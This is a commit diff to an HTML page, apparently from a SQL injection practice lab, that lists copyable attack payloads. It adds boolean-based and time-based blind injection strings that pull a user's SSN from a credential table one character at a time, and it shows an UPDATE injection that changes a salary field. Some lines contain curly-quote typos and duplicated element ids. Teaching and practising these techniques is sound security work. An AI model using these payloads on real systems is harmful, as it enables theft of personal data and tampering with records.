

Before and after one commit to AAAAA11331AAAAA/SQL_Injection, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 424-1191 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update SQLi payloads for Alice's SSN

```diff
--- a/index.html
+++ b/index.html
@@ -36,11 +36,17 @@
     <button onclick="copyToClipboard('inband-bypass')">Copy Login Bypass Payload</button>
 
     <h2>3. Malicious Payloads for Blind SQLi (Alice's SSN: 10211002)</h2>
-    <pre id="blind-boolean">admin' AND SUBSTRING((SELECT ssn FROM credential WHERE name=‘Alice'),1,1)=‘1' --  </pre>
-    <button onclick="copyToClipboard('blind-boolean')">Copy Boolean-based Payload</button>
+    <pre id="blind-boolean">admin' AND SUBSTRING((SELECT ssn FROM credential WHERE name='Alice'),1,1)='1' --  </pre>
+    <button onclick="copyToClipboard('blind-boolean')">Copy Success Boolean-based Payload</button>
+
+    <pre id="blind-boolean">admin' AND SUBSTRING((SELECT ssn FROM credential WHERE name=‘Alice'),1,1)='2' --  </pre>
+    <button onclick="copyToClipboard('blind-boolean')">Copy Failure Boolean-based Payload</button>
 
     <pre id="blind-time">admin' AND IF(SUBSTRING((SELECT ssn FROM credential WHERE name='Alice'),1,1)='1', SLEEP(3), 0)=0 -- </pre>
-    <button onclick="copyToClipboard('blind-time')">Copy Time-based Payload</button>
+    <button onclick="copyToClipboard('blind-time')">Copy Success Time-based Payload</button>
+
+    <pre id="blind-time">admin' AND IF(SUBSTRING((SELECT ssn FROM credential WHERE name='Alice'),1,1)='2', SLEEP(3), 0)=0 -- </pre>
+    <button onclick="copyToClipboard('blind-time')">Copy Failure Time-based Payload</button>
 
     <h2>4. UPDATE Injection Payloads (Edit Profile Nickname)</h2>
     <pre id="update-own">Alice', salary=100000 WHERE name='Alice'; -- </pre>
```
